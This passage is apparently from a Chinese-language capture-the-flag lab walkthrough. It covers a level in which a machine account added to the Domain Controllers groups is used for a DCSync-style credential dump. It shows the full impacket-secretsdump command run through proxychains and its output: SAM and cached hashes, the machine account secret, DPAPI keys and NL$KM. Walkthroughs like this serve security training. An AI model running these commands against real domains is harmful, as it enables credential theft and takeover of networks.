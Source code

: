 ```
PS C:\Windows\system32>
```

## 第 4 关

关卡剧情：

请尝试利用黑客留下的域控制器后门获取域控的权限。

---

主机 FILESERVER$ 被添加到 DOMAIN CONTROLLERS 和 ENTERPRISE DOMAIN CONTROLLERS 组中，可以直接对域控进行 DCSync 攻击。

获取主机 FILESERVER$ 的凭据：

```
┌──(root㉿kali)-[~]
└─# proxychains4 -q impacket-secretsdump xiaorang.lab/administrator@FILESERVER.xiaorang.lab -target-ip 172.22.60.42 -no-pass -k
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xef418f88c0327e5815e32083619efdf5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bd8e2e150f44ea79fff5034cad4539fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:b40dda6fd91a2212d118d83e94b61b11:::
[*] Dumping cached domain logon information (domain/username:hash)
XIAORANG.LAB/Administrator:$DCC2$10240#Administrator#f9224930044d24598d509aeb1a015766: (2023-08-02 07:52:21)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
XIAORANG\Fileserver$:plain_password_hex:3000310078005b003b0049004e003500450067003e00300039003f0074006c00630024003500450023002800220076003c004b0057005e0063006b005100580024007300620053002e0038002c0060003e00420021007200230030003700470051007200640054004e0078006000510070003300310074006d006b004c002e002f0059003b003f0059002a005d002900640040005b0071007a0070005d004000730066006f003b0042002300210022007400670045006d0023002a002800330073002c00320063004400720032002f003d0078006a002700550066006e002f003a002a0077006f0078002e0066003300
XIAORANG\Fileserver$:aad3b435b51404eeaad3b435b51404ee:951d8a9265dfb652f42e5c8c497d70dc:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x15367c548c55ac098c599b20b71d1c86a2c1f610
dpapi_userkey:0x28a7796c724094930fc4a3c5a099d0b89dccd6d1
[*] NL$KM
 0000   8B 14 51 59 D7 67 45 80  9F 4A 54 4C 0D E1 D3 29   ..QY.gE..JTL...)
 0010   3E B6 CC 22 FF B7 C5 74  7F E4 B0 AD E7 FA 90 0D   >.."...t........
 0020   1B 77 20 D5 A6 67 31 E9  9E 38 DD 95 B0 60 32 C4   .w ..g1..8...`2.
 0030   BE 8E 72 4D 0D 90 01 7F  01 30 AC D7 F8 4C 2B 4A   ..rM.....0...L+J
NL$KM:8b145159d76745809f4a544c0de1d3293eb6cc22ffb7c5747fe4b0ade7fa900d1b7720d5a66731e99e38dd95b06032c4be8e724d0d90017f0130acd7f84c2b4a
[*] Cleaning up...
[*] Stopping service RemoteRegistry
```
